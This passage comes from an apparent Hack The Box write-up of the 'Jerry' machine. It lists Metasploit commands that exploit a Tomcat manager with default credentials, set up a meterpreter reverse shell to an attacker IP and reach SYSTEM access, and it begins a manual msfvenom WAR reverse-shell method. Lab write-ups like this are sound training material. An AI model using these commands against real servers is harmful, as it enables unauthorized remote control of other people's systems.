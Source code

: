 When I tried to exploit this vulnerability using **`exploit/multi/http/tomcat_mgr_upload`** module I could easily get shell. Let us get **user shel**l using metasploit.

### **Getting User Shell** With Metasploit – Method 1

**`msf6 > search tomcat_mgr`**

**`msf6 > use exploit/multi/http/tomcat_mgr_upload`**

**`msf6 exploit(multi/http/tomcat_mgr_upload) > set PAYLOAD java/meterpreter/reverse_tcp`**

**`msf6 exploit(multi/http/tomcat_mgr_upload) > set LHOST 10.10.14.3`**

**`msf6 exploit(multi/http/tomcat_mgr_upload) > set RHOSTS 10.10.10.95`**

**`msf6 exploit(multi/http/tomcat_mgr_upload) > set HTTPUSERNAME tomcat`**

**`msf6 exploit(multi/http/tomcat_mgr_upload) > set HTTPPASSWORD s3cret`**

**`msf6 exploit(multi/http/tomcat_mgr_upload) > set RPORT 8080`**

**`msf6 exploit(multi/http/tomcat_mgr_upload) > exploit`**

**`meterpreter > sysinfo`**

<figure><img src="https://ethicalhacs.com/wp-content/uploads/2020/12/Getting-User-shell-1024x590.png" alt="Getting User shell via method 1 using metasploit" height="590" width="1024"><figcaption></figcaption></figure>

We have got **user shell**. Let us **`upgrade`** it to fully qualified **`windows CMD shell`** so that we can run more advanced windows command through it.

#### **Upgrading Shell**

**`meterpreter > shell`**

<figure><img src="https://ethicalhacs.com/wp-content/uploads/2020/12/Upgrading-shell-1.png" alt="Shell upgrade in Jerry hackthebox machine walkthrough" height="202" width="597"><figcaption></figcaption></figure>

So we have a fully qualified windows CMD shell. When I tried to check the **current username** through which we are logged in in this machine, it is **`NT authority\system`**. This **`NT Authority`** user has **highest privilege in windows OS** even higher than the **`administrator`** **`user`**. We can now say we have **full access over Jerry machine** and hence we don’t require any **`privilege escalation`** over it. Now, we can capture user and root flag from their respective directories.

Let us exploit this machine without **metasploit** because we should also have some alternative approach if it is already available.

### **Getting User Shell Without Metasploit – Method** 2

To exploit this vulnerability without metasploit follow the given steps. The exploitation steps are similar to **`Tabby HTB machine`** which I have already walked through. Check it [**here**](https://ethicalhacs.com/tabby-hackthebox-walkthrough/). In **`tabby`** machine I have exploited this vulnerability using tomcat **`CLI web application access feature`**, for more info check [**this**](https://tomcat.apache.org/tomcat-8.5-doc/manager-howto.html) documentation from **`tomcat`**. In this walkthrough I will exploit this vulnerability via **`Graphical User Interface panel`** of **tomcat server**.

So to exploit this vulnerability follow the given steps.

**1**. Create a **war** extension **reverse shell** using **`msfvenom`**.
